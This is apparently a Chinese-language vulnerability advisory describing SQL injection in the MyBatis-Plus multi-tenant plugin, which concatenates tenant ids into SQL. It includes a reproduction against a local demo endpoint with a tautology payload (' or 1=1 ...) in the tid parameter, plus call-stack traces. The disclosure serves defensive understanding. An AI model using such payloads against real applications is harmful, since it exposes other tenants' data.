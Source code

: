 
# MybatisPlus多租户插件SQL注入

## 0. 这个漏洞是不是框架的问题？

租户id字段的拼接行为由框架完成，能造成注入的原因即包括调用框架的应用本身没有对租户id做过滤处理，也包括框架本身不合适的字段拼接行为

但是本质上触发漏洞的原因是框架不合适的字段拼接行为。

我认为开发团队即使不去修复，也要对用户有足够的提醒。

![Pasted image 20230201150219.png](./images/Pasted%20image%2020230201150219.png)


## 1. 漏洞总结

威胁：SQL注入

受影响的模块：多租户插件

MavenGroupId：com.baomidou

MavenArtifactId：mybatis-plus

影响版本：3.x

描述：租户插件在构造sql表达式时，没有对租户id值做处理，直接拼接到sql表达式。当应用程序启用了租户插件并且租户id是外部用户可控时，可以造成sql注入

可造成的结果：成功的 SQL 注入漏洞可以从数据库中读取敏感数据、修改数据库数据（插入/更新/删除）、对数据库执行管理操作（例如关闭 DBMS）、恢复 DBMS 文件中存在的给定文件的内容系统并在某些情况下向操作系统发出命令

漏洞利用前提条件：
1. 应用程序启用了租户插件；
2. 租户id外部可控，传入了 `getTenantId` 方法；
    - （3.0.x, 3.1.x, 3.3.x）com.baomidou.mybatisplus.extension.plugins.tenant.TenantHandler#getTenantId
    - （3.4.x, 3.5.x）com.baomidou.mybatisplus.extension.plugins.handler.TenantLineHandler#getTenantId
3. 应用程序没有对租户id值做过滤处理

修复建议：无



## 2. 漏洞复现
测试版本: 3.4.2

参考 https://github.com/baomidou/mybatis-plus-samples/tree/master/mybatis-plus-sample-tenant
搭建一个spring应用，启用多租户插件：

`com.example.demo.config.MybatisPlusConfig`
![Pasted image 20230201155305.png](./images/Pasted%20image%2020230201155305.png)

`com.example.demo.common.TenantHolder`
![Pasted image 20230201155404.png](./images/Pasted%20image%2020230201155404.png)

测试接口：`/user?tid=` 返回指定租户数据记录

`com.example.demo.controller.HelloController`
![Pasted image 20230201155458.png](./images/Pasted%20image%2020230201155458.png)

库表结构：
```text
CREATE TABLE `users` (  
  `id` int(32) NOT NULL AUTO_INCREMENT,  
  `name` varchar(32) NOT NULL,  
  `tenant_id` varchar(64) NOT NULL,  
  PRIMARY KEY (`id`)  
) ENGINE=InnoDB AUTO_INCREMENT=1 DEFAULT CHARSET=utf8;
```

测试接口：

`http://localhost:8080/user?tid=`
![Pasted image 20230201155910.png](./images/Pasted%20image%2020230201155910.png)

`http://localhost:8080/user?tid=19065dc6-a14a-11ed-ba3f-864b77a22e79`
![1](./images/Pasted%20image%2020230201182920.png)

注入：`' or 1=1 and '123'='123`

`http://localhost:8080/user?tid=' or 1=1 and '123'='123`

![Pasted image 20230201155957.png](./images/Pasted%20image%2020230201155957.png)

`http://localhost:8080/user?tid=19065dc6-a14a-11ed-ba3f-864b77a22e79%27%20or%201=1%20and%20%271%27=%271`
![2](./images/Pasted%20image%2020230201182932.png)


## 3. 漏洞触发细节

测试版本：3.0.7.1

builderExpression:265, TenantSqlParser (com.baomidou.mybatisplus.extension.plugins.tenant)
processPlainSelect:193, TenantSqlParser (com.baomidou.mybatisplus.extension.plugins.tenant)
processPlainSelect:174, TenantSqlParser (com.baomidou.mybatisplus.extension.plugins.tenant)
processSelectBody:75, TenantSqlParser (com.baomidou.mybatisplus.extension.plugins.tenant)
processParser:96, AbstractJsqlParser (com.baomidou.mybatisplus.core.parser)
parser:71, AbstractJsqlParser (com.baomidou.mybatisplus.core.parser)
sqlParser:63, AbstractSqlParserHandler (com.baomidou.mybatisplus.extension.handlers)
intercept:129, PaginationInterceptor (com.baomidou.mybatisplus.extension.plugins)

![Pasted image 20230201150219.png](./images/Pasted%20image%2020230201150219.png)

测试版本：3.4.2

builderExpression:357, TenantLineInnerInterceptor (com.baomidou.mybatisplus.extension.plugins.inner)
processPlainSelect:235, TenantLineInnerInterceptor (com.baomidou.mybatisplus.extension.plugins.inner)
processSelectBody:100, TenantLineInnerInterceptor (com.baomidou.mybatisplus.extension.plugins.inner)
processSelect:88, TenantLineInnerInterceptor (com.baomidou.mybatisplus.extension.plugins.inner)
processParser:91, JsqlParserSupport (com.baomidou.mybatisplus.extension.parser)
parserSingle:50, JsqlParserSupport (com.baomidou.mybatisplus.extension.parser)
beforeQuery:70, TenantLineInnerInterceptor (com.baomidou.mybatisplus.extension.plugins.inner)
intercept:78, MybatisPlusInterceptor (com.baomidou.mybatisplus.extension.plugins)

![Pasted image 20230201154503.png](./images/Pasted%20image%2020230201154503.png)
